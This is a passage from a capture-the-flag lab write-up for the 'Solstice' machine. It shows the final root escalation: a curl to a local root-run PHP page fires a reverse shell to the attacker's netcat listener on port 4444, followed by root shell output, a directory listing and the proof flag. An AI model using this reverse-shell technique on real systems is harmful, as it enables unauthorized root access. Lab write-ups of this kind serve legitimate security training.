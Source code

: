 Now I have a port number of 57 on which this index.php could be running so when I did the curl →

```bash
www-data@solstice:/var/tmp$ curl localhost:57
```
{: .nolineno}

And I recived a reverse shell on port 4444 on Attackers machine as root →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Solstice]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.164] from (UNKNOWN) [192.168.231.72] 54478
Linux solstice 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64 GNU/Linux
 04:26:49 up 59 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: cant access tty; job control turned off
# /bin/bash -i
bash: cannot set terminal process group (17962): Inappropriate ioctl for device
bash: no job control in this shell
root@solstice:/# whoami
whoami
root
root@solstice:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@solstice:/# cd /root
cd /root
root@solstice:~# ls -al
ls -al
total 56
drwx------  9 root root 4096 Jul 10 03:30 .
drwxr-xr-x 18 root root 4096 Jun 29  2020 ..
lrwxrwxrwx  1 root root    9 Jun 26  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Jun 17  2020 .cache
drwxr-xr-x  3 root root 4096 Jun 13  2020 .config
drwxr-xr-x  2 root root 4096 Jun 19  2020 ftp
drwx------  3 root root 4096 Jun 18  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-------  1 root root    0 Aug  7  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jul 10 03:30 proof.txt
-rw-r--r--  1 root root   32 Aug 13  2020 root.txt
-rw-r--r--  1 root root   66 Jun 13  2020 .selected_editor
drwx------  2 root root 4096 Jun 19  2020 .ssh
-rw-r--r--  1 root root    0 Aug 13  2020 .wget-hsts
drwxr-xr-x  4 root root 4096 Jun 18  2020 .wine
root@solstice:~# cat root.txt
cat root.txt
Your flag is in another file...
root@solstice:~# cat proof.txt
cat proof.txt
d7acbf3dd425d114f36d106ffa12a6c7
root@solstice:~#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }